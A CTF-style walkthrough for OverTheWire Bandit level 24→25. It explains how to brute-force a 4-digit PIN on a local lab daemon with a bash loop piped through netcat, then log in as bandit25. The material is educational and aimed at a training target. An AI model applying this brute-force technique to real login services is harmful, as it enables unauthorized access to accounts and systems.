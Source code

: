 ```markdown
# Written by: VINOD .N. RATHOD  

# Bandit Walkthrough — Level 24 → Level 25  

# Date: 24-08-2025  

## Objective  
Retrieve the password for "bandit25".  
A daemon is listening on "port 30002". It requires:  
1. The password for the current level ("bandit24").  
2. A secret "4-digit passcode".  

Since the passcode is unknown, we need to "brute-force" it.  
```

## **Steps to Solve**

### Step 1 — Test the Service

1. First, connect to the service using `netcat` to understand how it works:

```bash
   nc localhost 30002
```

It prompts for the password and a 4-digit pin in a single line:

```
<bandit24_password> <4_digit_pin>
```

If the pin is incorrect, the service responds with:

```
Wrong! Please enter the correct pincode. Try again.
```

---

### Step 2 — Create a Working Directory

2. Create a temporary working directory inside `/tmp`:

```bash
   cd /tmp
   mkdir V1NNN22
   cd V1NNN22
```

---

### Step 3 — Write the Brute-Force Script

3. Create a brute-force script named `bruteforce`:

```bash
   nano bruteforce
```

Insert the following code:

```bash
   #!/bin/bash
   passwd="(enter your bandit24 password here)"
   for i in {0000..9999}
   do
      echo $passwd" "$i
   done
```

Save and exit.

---

### Step 4 — Make Script Executable

4. Grant execute permissions:

```bash
   chmod +x bruteforce
```

---

### Step 5 — Run the Brute-Force Attack

5. Run the script and pipe its output into the daemon. Save the results into a file:

```bash
   ./bruteforce | nc localhost 30002 > result.txt
```

The script will take some time to run as it tests all **10,000 combinations**.

---

### Step 6 — Filter Results

6. Once the script finishes, filter the results to remove all wrong attempts:

```bash
   grep -v "Wrong" result.txt
```

This will display the line containing the **correct password for bandit25**.

---

![Brute-forcing with script and retrieving bandit25 password](Assets/level-24.png)


### Step 7 — Login as bandit25

7. Use the retrieved password to log in as **bandit25**:

```bash
   ssh bandit25@bandit.labs.overthewire.org -p 2220
```

## **Outcome**

* By brute-forcing the **4-digit code**, we retrieved the password for **bandit25**.
* Successfully logged into the server as **bandit25** and moved to the next level.

---

# THANK YOU!

# \~ **V1NNN22** \~

